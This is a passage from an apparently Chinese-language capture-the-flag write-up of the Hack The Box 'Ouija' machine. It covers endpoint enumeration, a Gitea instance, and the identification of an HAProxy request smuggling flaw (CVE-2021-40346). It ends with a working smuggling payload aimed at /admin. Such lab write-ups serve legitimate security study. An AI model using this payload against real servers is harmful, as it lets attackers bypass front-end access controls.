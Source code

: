 3. /login

   需要uname和upass

   ![image-20231206163350985](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202312072318979.png)

   尝试admin:admin，结果如下

   ![image-20231206164928384](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202312072318101.png)

4. /register

   ![image-20231206165100344](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202312072318306.png)

5. /users

   直接访问提示缺少ihash标头

   ![image-20231206165139637](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202312072318846.png)

   添加了ihash标头后缺少identification标头

   ![image-20231206165237082](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202312072318994.png)

   再次添加对应的标头，这次得到的是Invalid Token

   ![image-20231206165330051](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202312072318371.png)

​		3000端口的服务暂时搁置。



## 1.4 gitea.ouija.htb

1. 可以直接访问http://gitea.ouija.htb,然后点击左上角的**探索**，可以直接访问ouija-htb

   README.md中给出了Ouija 网站设置和产品信息

   ![image-20231206165911831](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202312072318419.png)

2. 依次检索Instructions清单中的服务，寻找已知的公告漏洞。

   通过google检索发现HA-Proxy容易存在[HTTP请求走私漏洞](https://portswigger.net/daily-swig/haproxy-vulnerability-enables-http-request-smuggling-attacks)。该漏洞已在 HAProxy 版本 2.0.25、2.2.17、2.3.14 和 2.4.4 中通过添加名称和值长度的大小检查进行修复。目标机器的2.2.16版本似乎并没有修复。



3. payload来自于alexOarga的[CVE-2021-40346](https://github.com/alexOarga/CVE-2021-40346/blob/main/payload)

   ```
   POST /index HTTP/1.1
   Host: xx.xxxxx.xx:8000
   Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa: 
   Content-Length: 23
   
   GET /admin HTTP/1.1
   h: GET /index HTTP/1.1
   Host: xx.xxxxx.xx:8000
   ```

